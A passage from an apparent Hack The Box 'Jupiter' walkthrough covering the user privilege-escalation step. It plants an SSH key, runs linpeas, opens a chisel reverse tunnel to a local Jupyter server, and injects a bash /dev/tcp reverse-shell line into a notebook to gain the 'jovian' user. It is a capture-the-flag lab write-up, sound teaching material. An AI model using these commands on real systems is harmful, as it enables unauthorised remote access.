 ## User Priv

In `juno` home, add your own `id_rsa.pub` to `/home/juno/.ssh/authorized_keys`

SSH login with user `juno`.  
Upload `linpeas.sh` and check.  

We see `jovian` run `jupyter-notebook` file in `/opt/solar-flares/`

Check dir `/opt/solar-flares`.

See lastest .log  
![](/commons/HTB/Jupiter/5_log.png)

`Juniper-notebook` run on port 8888 on localhost.  
We will use [chisel](https://github.com/jpillora/chisel)  

On local run server: `./chisel64 server --port 4444 --reverse`
On attack machine runs client: `./chisel64 client IP:PORT R:8888:127.0.0.1:8888`  
![](/commons/HTB/Jupiter/6_chisel.png)

Add reverse shell on `flares.ipynb` and get user `jovian`

```shell
import os;os.system('bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"')
```

We in `jovian`shell.
